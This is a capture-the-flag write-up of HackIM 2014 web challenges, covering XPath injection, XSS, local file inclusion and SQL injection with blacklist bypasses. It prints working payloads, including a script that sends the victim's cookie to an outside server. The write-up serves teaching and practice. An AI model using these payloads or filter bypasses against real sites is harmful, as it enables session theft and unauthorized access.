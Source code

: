 ```yaml
---
layout: post
ctf: "HackIM 2014"
title: "Web track (1 to 6)"
author: "Mathieu Binette"
---
```


##Web 1 - 100pts

In this challenge, you have two pages: a login page and a register page.

After looking at the HTML code of both pages, we noticed a comment `<!-- <user>isAdmin=No</user> -->`. It is now pretty clear that we are facing a XPATH injection challenge. After trying a couple of variant of the `ìsAdmin` tag, we finally found the way to inject the admin parameter by registering `user</username><isAdmin>Yes</isAdmin><username>user`.

That's it for this challenge.

* * *

##Web 2 - 200pts

On this challenge, you need to choose a user and then you can send search queries to a log file that will "be consulted by an admin". This sounds a lot like XSS, and this is exactly what it is. However, there is a small filtered blacklist:

```
document.cookie
document.location
onerror
```

However, you can get around this by doing:

```
<script>
    document['location'] = 'http://myserver.ms/file.php?q='+document['cookie']
</script>
```

Which effectively gives you the flag for this level.

* * *

##Web 3 - 200pts

Writeup coming soon.

* * *

##Web 4 - 200pts

Writeup coming soon.

* * *

##Web 5 - 500pts

Before the first page even loads, you know you're facing a LFI challenge when you see `/index.php?page=home`.

When looking at the comments on the HTML file, you see that the flag is hidden in `etc/flag`.

However, there are a couple of blacklisted characters/words.

```
..
passwd
etc/flag
```

You get the flag by requesting `etc/./flag`.

* * *

##Web 6 - 600pts

This is just a basic SQL injection challenge. After trying `-1 or 1=1` and getting a "Attack detected" message, you find out there are a couple of filters. Here are the following blacklisted words/characters we found:

```
 (space)
or
=
'
SELECT
```

Even with this blacklist, it is still quite easy to inject the following `-1/**/||/**/1/**/like/**/1`.

And you get the flag.
